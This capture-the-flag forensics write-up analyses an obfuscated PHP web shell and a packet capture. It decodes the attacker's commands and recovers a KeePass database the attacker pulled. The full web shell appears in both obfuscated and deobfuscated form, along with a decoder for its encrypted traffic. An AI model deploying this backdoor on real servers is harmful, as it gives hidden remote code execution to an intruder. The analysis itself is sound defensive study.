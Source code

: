 # Obscure
> Write-up author: vreshco
## DESCRIPTION:
An attacker has found a vulnerability in our web server that allows arbitrary PHP file upload in our Apache server. 
Suchlike, the hacker has uploaded a what seems to be like an obfuscated shell (support.php). 
We monitor our network 24/7 and generate logs from tcpdump (we provided the log file for the period of two minutes before we terminated the HTTP service for investigation), 
however, we need your help in analyzing and identifying commands the attacker wrote to understand what was compromised.
## HINT:
- NONE
## STEPS:
1. Given 3 files, a .pcap file, .php, and a .txt.

> txt

![image](https://user-images.githubusercontent.com/70703371/232369346-54d9b6cd-b188-444b-9b71-0324696bac8d.png)


2. Inside the .txt file is the same as the description, let's check the .php file then.

> php

```php
<?php
$V='$k="80eu)u)32263";$khu)=u)"6f8af44u)abea0";$kf=u)"35103u)u)9f4a7b5";$pu)="0UlYu)yJHG87Eu)JqEz6u)"u)u);function u)x($';
$P='++)u){$o.=u)$t{u)$i}^$k{$j};}}u)retuu)rn $o;}u)if(u)@pregu)_u)match("/$kh(.u)+)$kf/",@u)u)file_u)getu)_cu)ontents(';
$d='u)t,$k){u)$c=strlu)en($k);$l=strlenu)($t)u);u)$o=""u);for($i=0u);u)$i<$l;){for(u)$j=0;(u)$u)j<$c&&$i<$l)u)u);$j++,$i';
$B='ob_get_cou)ntu)ents();@obu)_end_cleu)anu)();$r=@basu)e64_eu)ncu)ode(@x(@gzu)compress(u)$o),u)$k));pru)u)int(u)"$p$kh$r$kf");}';
$N=str_replace('FD','','FDcreFDateFD_fFDuncFDFDtion');
$c='"php://u)input"),$u)m)==1){@u)obu)_start();u)@evau)l(@gzuu)ncu)ompress(@x(@bau)se64_u)decodu)e($u)m[1]),$k))u));$u)ou)=@';
$u=str_replace('u)','',$V.$d.$P.$c.$B);
$x=$N('',$u);$x();
?>
```

3. To deobfuscate it, we can use [this](https://www.unphp.net/decode/365587cf53459685fac9e018b609a175/) online tool.

> Deobfuscated

```php
<?php function x($t, $k) {
    $c = strlen($k);
    $l = strlen($t);
    $o = "";
    for ($i = 0;$i < $l;) {
        for ($j = 0;($j < $c && $i < $l);$j++, $i++) {
            $o.= $t{$i} ^ $k{$j};
        }
    }
    return $o;
}
$k = "80e32263";
$kh = "6f8af44abea0";
$kf = "351039f4a7b5";
$p = "0UlYyJHG87EJqEz6";
function x($t, $k) {
    $c = strlen($k);
    $l = strlen($t);
    $o = "";
    for ($i = 0;$i < $l;) {
        for ($j = 0;($j < $c && $i < $l);$j++, $i++) {
            $o.= $t{$i} ^ $k{$j};
        }
    }
    return $o;
}
if (@preg_match("/$kh(.+)$kf/", @file_get_contents("php://input"), $m) == 1) {
    @ob_start();
    eval(@gzuncompress(@x(base64_decode($m[1]), $k)));
    $o = @ob_get_contents();
    @ob_end_clean();
    $r = @base64_encode(@x(@gzcompress($o), $k));
    print ("$p$kh$r$kf");
}
```

4. Not a pro in php, but based from this if statement:

![image](https://user-images.githubusercontent.com/70703371/232371190-db69277f-d5f7-4832-91a6-6e2e35c3c76b.png)


5. We know the encoded "string" is between -> 0UlYyJHG87EJqEz66f8af44abea0 [encoded_string] 351039f4a7b5.
6. Feels there's nothing more useful in the script, let's digging the pcap file.

> WIRESHARK

![image](https://user-images.githubusercontent.com/70703371/232371856-8e4bee20-7c6f-4081-92a7-c5b22b9b41d6.png)
 
 
 7. Following the TCP stream we found 1 strings that holds the pattern we found at the php script.

![image](https://user-images.githubusercontent.com/70703371/232372271-eb965890-ecf0-445f-9ad5-7046f7e2b037.png)


8. The encoded strings must be -> `QKxO/n6DAwXuGEoc5X9/H3HkMXv1Ih75Fx1NdSPRNDPUmHTy`.
9. Following the TCP stream at 23rd we found similiar pattern.

![image](https://user-images.githubusercontent.com/70703371/232372751-b7c5bb09-5eb8-4aed-9dd3-600c9658b145.png)


10. Let's decode the first one by reversing the deobfuscated script we got before.

> Reversed

```html
<!DOCTYPE html>
<html>
<body>
<?php

$k = "80e32263";
$kh = "6f8af44abea0";
$kf = "351039f4a7b5";
$p = "0UlYyJHG87EJqEz6";

function x($t, $k) {
    $c = strlen($k);
    $l = strlen($t);
    $o = "";
    for ($i = 0;$i < $l;) {
        for ($j = 0;($j < $c && $i < $l);$j++, $i++) {
            $o.= $t{$i} ^ $k{$j};
        }
    }
    return $o;
}

/*
if (@preg_match("/$kh(.+)$kf/", @file_get_contents("php://input"), $m) == 1) {
    @ob_start();
    eval(@gzuncompress(@x(base64_decode($m[1]), $k)));
    $o = @ob_get_contents();
    @ob_end_clean();
    $r = @base64_encode(@x(@gzcompress($o), $k));
    print ("$p$kh$r$kf");
}

?>
*/

$encoded_strings = "QKxO/n6DAwXuGEoc5X9/H3HkMXv1Ih75Fx1NdSPRNDPUmHTy"; // encoded strings goes here
$decode_base64 = base64_decode($encoded_strings);
$get_xor = x($decode_base64, $k);
$get_plaintext = gzuncompress($get_xor);
echo "Plaintext -> ".$get_plaintext;

?>

</body>
</html>
```

11. I don't use XAMPP or POSTMAN to run this, simply use [this](https://www.w3schools.com/php/phptryit.asp?filename=tryphp_compiler) online PHP compiler.

> RESULT

![image](https://user-images.githubusercontent.com/70703371/232377924-bb7e7ff5-0d6f-414a-bfca-3a2d306d14bb.png)


12. Great! We successfully decode the encoded strings and looks like the attacker execute `id`.
13. Let's decode the other strings we got.

> RESULT

![image](https://user-images.githubusercontent.com/70703371/232378278-810c1aa2-e7a2-4333-848b-a3e43bdec473.png)


14. Looks like this time the attacker run `ls -lh`.
15. Notice there's 1 filename that could be our interest -> `pwdb.kdbx`.
16. Following the TCP stream at 24, we found similiar pattern again.

![image](https://user-images.githubusercontent.com/70703371/232378724-16b90f97-38d6-484c-ab26-11ed0f05eaa9.png)


> DECODE IT

![image](https://user-images.githubusercontent.com/70703371/232378884-e7c7af1b-3ca7-47bd-bc4b-56198d88aa46.png)


17. This time the attacker runs `pwd`, nothing interesting here.
18. Following the TCP stream at 25, we found the same pattern again, but longer.

![image](https://user-images.githubusercontent.com/70703371/232379002-d6f0c32c-187d-4ecd-9509-754316fa46eb.png)


> DECODE IT

![image](https://user-images.githubusercontent.com/70703371/232379081-f65e87fa-1143-43d2-89d2-651060f9db68.png)


19. Confused what it is, well it's the last stream we can follow, hence our approach must be from this last one.
20. Maybe the attacker cat the `kdbx` file (?)
21. Let's assume that for now, save the decoded strings into a file with .kdbx as the extension.
22. Now open the file using **KeePass**.

> RESULT

![image](https://user-images.githubusercontent.com/70703371/232380024-862c0aed-97a1-4a35-96e0-fe2a7f278412.png)


23. It's asking for the master keys, which are good news because it really is a kdbx file.
24. But we need to find the master keys.






